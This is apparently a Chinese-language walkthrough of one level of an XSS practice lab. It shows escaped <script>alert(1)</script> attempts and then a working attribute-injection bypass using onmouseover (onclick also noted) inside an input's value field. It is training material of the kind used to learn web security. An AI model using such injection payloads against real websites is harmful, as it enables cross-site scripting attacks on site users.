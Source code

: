 ```
<script>alert(1)</script>
```



F12查看发现

```
<input name=keyword  value='&lt;script&gt;alert(1)&lt;/script&gt;'>
```



再输入第二关的绕过

```
"><script>alert(1)</script>
```



发现

```
<input name=keyword  value='&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'>
```



没有用

上网看资料，说使用onmouseover进行构造利用

onmouseover事件会在鼠标指针移动到指定的元素上发生



所以直接

```
xx' onmouseover='alert(1)
```



但是结果会变成

```
<input name=keyword  value='xx' onmouseover='alert(1)'>
```



改一下alert

```
xx' onmouseover='alert(1)
```



onclick也是可以的

过关



## 4.

